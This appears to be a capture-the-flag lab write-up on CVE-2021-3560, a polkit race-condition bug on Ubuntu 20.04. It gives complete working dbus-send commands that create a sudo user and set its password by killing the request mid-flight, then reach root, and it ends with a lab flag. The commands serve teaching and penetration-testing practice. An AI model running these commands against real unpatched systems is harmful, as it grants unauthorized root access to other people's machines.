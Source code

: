 ﻿## _**Overview**_  
---
In early 2021 a researcher namedÂ [Kevin Backhouse](https://github.blog/author/kevinbackhouse/)Â discovered a seven year old privilege escalation vulnerability (since designatedÂ CVE-2021-3560) in theÂ LinuxÂ polkit utility. Fortunately, different distributions ofÂ LinuxÂ (and even different versions of the same distributions) use different versions of the software, meaning that only some are vulnerable.

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Red Hat EnterpriseÂ LinuxÂ 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")  

All should now have released patched versions of their respective polkit packages, however, if you encounter one of these distributions then it may still be vulnerable if it hasn't been updated for a while.

For this room we will be focusing specifically on Ubuntu 20.04. Canonical released a patch for their version of polkit (`policykit-1`), which has version numberÂ `0.105-26ubuntu1.1`. The last vulnerable version available in the apt repositories for Focal Fossa isÂ `0.105-26ubuntu1`, so, if you see this, you may be in luck!

We can useÂ `apt list --installed | grep policykit-1`Â to check the installed version of polkit:  

![Image demonstrating the installed vulnerable version of polkit](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3e537ed069ff.png)

The original description of this vulnerability can be found in a post written by Kevin Backhouse,Â [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).  

---

### _**What is Polkit?**_  
----
The logical question to be asking right now is: "What is polkit?"

Polkit is part of the Linux authorization system. In effect, when you try to perform an action which requires a higher level of privileges, the policy toolkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd".

When interacting with polkit we can useÂ `pkexec`, instead ofÂ `sudo`. As an example, attempting to run theÂ `useradd`Â command throughÂ `pkexec`Â in aÂ GUIÂ session results in a pop-up asking for credentials:  
`pkexec useradd test1234`  
![Demonstrating the polkit GUI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3ceb61a94882.png)  

In aÂ CLIÂ session, we get a text-based prompt instead:  
![Demonstrating the polkit CLI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b42accbd7f01.png)  

To summarize, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system.

---

### _**How is Polkit vulnerable?**_  
---
The next logical question is of course: "How can we exploit polkit"?

The short answer is: by manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each other), then killing the request before it has been fully processed, we can trick polkit into authorizing the command. If you are not familiar with daemons, they are effectively background services running onÂ Linux. The dbus-daemon is a program running in the background which brokers messages between applications.  

For the sake of keeping this room relatively light, we won't go too deep into the specifics behind this (although reading theÂ [full article on the vulnerability](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#about)Â is highly recommended). Effectively, the vulnerability can be boiled down to these steps:

```ad-summary
1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.  
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.  
6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.
```

In short, by destroying the message ID before the `dbus-daemon` has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  

If this doesn't make sense now, hopefully it will after you've had a chance to perform the exploit yourself!


## Exploitation Process
----

We've seen the theory, now let's see it in action!

Let's try to add a new user calledÂ `attacker`, with sudo permissions, and a password ofÂ `Expl01ted`. Just read this information for now -- you will have time to try it in the next task!  

First, let's look at the dbus messages we'll need to send:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`

This command will manually send a dbus message to the accounts daemon, printing the response and creating a new user called attacker (`string:attacker`) with a description of "Pentester Account" (`string:"Pentester Account"`) and membership of the sudo group set to true (referenced by the`int32:1`Â flag).

Our second dbus message will set a password for the new account:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_IDÂ org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'`  



This once again sends a dbus message to the accounts daemon, requesting a password change for the user with an ID which we specify (shown in red), a password hash which we need to generate manually, and a hint ("Ask the pentester")

---

As this is effectively a race condition, we first need to determine how long our command will take to run. Let's try this with the first dbus message:  

`time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/fe8af4395935.png)  

This takes 0.011 seconds, or 11 milliseconds. This number will be slightly different each time you run the command; however, on the provided machine it should always beÂ _around_Â this number.

_**Note:**Â For the first five minutes or so of deployment the machine is still booting things in the background, so don't be alarmed if the time you get is a lot longer to begin with -- just keep running the command periodically until it gives you a time in a similar region to the results above._

We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.  

Let's try this. We need to send the dbus message, then kill it about halfway through:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b1dba51148aa.png)  

To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (`sleep 0.005s`), then kill the previous process (`$!`). This successfully created the new user, adding them into the sudo group.  
We should note down at this point that the user ID of the new user in this instance is 1000.

Now all we need to do is give the user a password and we should be good to go!

---

We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (`Expl01ted`):  

`openssl passwd -6 Expl01ted`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/1316626c8114.png)  

Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`Expl01ted`).

Now let's finish this! 5 milliseconds worked last time, so it should work here too:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000Â org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/12e11c378d8d.png)

With a hop, su, and aÂ `sudo -s`, we have root!


![Pasted image 20250107154644.png](../../IMAGES/Pasted%20image%2020250107154644.png)

We have root flag, we must submit it to the flag system and we will get our normal flag:

![Pasted image 20250107154738.png](../../IMAGES/Pasted%20image%2020250107154738.png)

So, our flag would be: `THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}`
